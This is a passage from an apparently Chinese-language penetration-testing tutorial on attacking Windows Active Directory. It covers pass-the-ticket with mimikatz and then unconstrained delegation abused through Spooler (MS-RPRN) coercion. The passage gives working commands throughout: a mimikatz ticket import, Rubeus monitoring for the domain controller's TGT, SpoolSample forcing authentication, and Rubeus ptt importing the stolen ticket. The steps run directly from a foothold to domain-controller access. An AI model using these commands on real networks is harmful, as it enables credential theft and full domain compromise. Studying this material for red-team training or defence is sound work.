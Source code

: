 通过域用户导入该票据

    
    
    mimikatz.exe "kerberos::ptt [0;46d958]-2-0-60a10000-Administrator@krbtgt-CCC1.TEST.kirbi"  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153810.png)

再次访问dc的cifs服务发现是可以的

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153811.png)

可直接连接到DC

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153812.png)

### 非约束委派+Spooler

非约束委派利用的前提是必须通过域管来远程连接,在实战中通过域管来连接的情况是几乎不存在的，比较鸡肋，因此可以通过Spooler打印服务来强制指定的主机进行连接,来达到我们想要的效果。

MS-RPRN(Print System Remote
Protocol,打印系统远程协议)中`RpcRemoteFindFirstPrinterChangeNotification(Ex)`方法可以强制任何运行了spooler服务的计算机通过kerberos或者NTKLM对攻击者的目标机器进行身份验证.

splooer服务是默认运行的

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153813.png)

通过win7的本地管理员权限运行rubeus.exe进行监听

    
    
    Rubeus.exe monitor /interval:5 /filteruser:DC$  
      
    # /interval:5 设置监听间隔5秒  
    # /filteruser 监听对象为我们的域控，注意后面有个$，如果不设置监听对象就监听所有的TGT  
    

然后通过spoolsample.exe强制dc向win7机器进行身份验证，rubeus就会监听到base64编码后的TGT

    
    
    SpoolSample.exe DC WIN7-PC  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153815.png)

image.png

通过rubeus导入票据

    
    
    rubeus.exe ptt /ticket:<ticket>  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221123153817.png)
